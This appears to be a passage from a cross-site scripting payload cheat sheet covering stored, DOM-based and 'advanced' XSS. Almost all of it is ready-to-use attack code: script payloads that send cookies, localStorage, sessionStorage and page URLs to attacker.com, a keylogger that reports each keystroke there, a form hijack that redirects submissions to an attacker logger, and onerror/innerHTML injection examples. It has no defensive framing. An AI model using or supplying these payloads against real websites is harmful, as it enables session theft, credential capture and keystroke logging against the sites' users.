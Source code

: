 ### Stored XSS

Payload is stored on the target server and executed when users visit a page:

```javascript
# Data Exfiltration
<script>
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      url: window.location.href,
      localStorage: localStorage
    })
  });
</script>

# Keylogger Injection
<script>
  document.onkeypress = function(e) {
    fetch('https://attacker.com/log?key=' + e.key);
  }
</script>

# Form Hijacking
<script>
  document.forms[0].action = 'https://attacker.com/logger';
</script>
```

### DOM Based XSS

Payload is executed through client-side JavaScript manipulation:

```javascript
# URL Fragment Exploitation
#<img src=x onerror=alert(1)>    # Targeting location.hash
?search=<img src=x onerror=alert(1)>  # Targeting location.search

# DOM Manipulation
document.write('... USER_INPUT ...')  # document.write injection
element.innerHTML = '... USER_INPUT ...'  # innerHTML injection
$("#element").html('... USER_INPUT ...')  # jQuery html() injection
```

### Advanced XSS Payloads

#### Cookie Theft

```javascript
# Basic Cookie Stealer
<script>
fetch('https://attacker.com/steal?cookie='+document.cookie);
</script>

# Advanced Cookie Stealer
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://attacker.com/logger', true);
xhr.send(JSON.stringify({
    'url': window.location.href,
    'cookies': document.cookie,
    'localStorage': localStorage,
    'sessionStorage': sessionStorage
}));
</script>
```